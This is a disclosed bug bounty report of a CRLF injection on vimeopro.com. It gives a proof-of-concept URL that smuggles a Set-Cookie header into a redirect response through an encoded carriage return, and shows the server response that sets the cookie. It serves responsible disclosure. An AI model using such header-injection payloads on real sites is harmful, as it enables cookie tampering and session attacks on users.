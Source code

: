 # [vimeopro.com] CRLF Injection

## Report Details
- **Report ID**: 39181
- **URL**: https://hackerone.com/reports/39181
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2014-12-12T19:33:03.836Z
- **Disclosed**: 2016-10-24T21:45:00.298Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: vimeo

## Vulnerability Information
PoC (for any browser other than FireFox)
http://www.vimeopro.com/crlftest%0dSet-Cookie:test=test;domain=.vimeopro.com

HTTP Response:
HTTP/1.1 301 Moved Permanently\r\n
Date: Fri, 12 Dec 2014 19:28:49 GMT\r\n
Server: Apache\r\n
Location: http://vimeopro.com/crlftest\r
Set-Cookie:test=test;domain=.vimeopro.com\r\n

Result:
Creating a cookie-param "test=test"

## Attachments
No attachments
